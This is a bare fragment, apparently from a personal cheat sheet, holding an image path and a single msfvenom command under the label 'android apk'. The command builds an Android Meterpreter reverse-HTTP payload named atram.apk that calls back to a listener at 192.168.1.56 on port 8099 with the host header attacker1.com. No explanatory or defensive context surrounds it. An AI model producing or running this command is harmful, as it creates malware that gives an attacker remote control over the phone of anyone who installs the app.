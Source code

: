 ===android apk=====
msfvenom -p android/meterpreter_reverse_http LHOST=192.168.1.56 LPORT=8099 HttpHostHeader=attacker1.com R>atram.apk

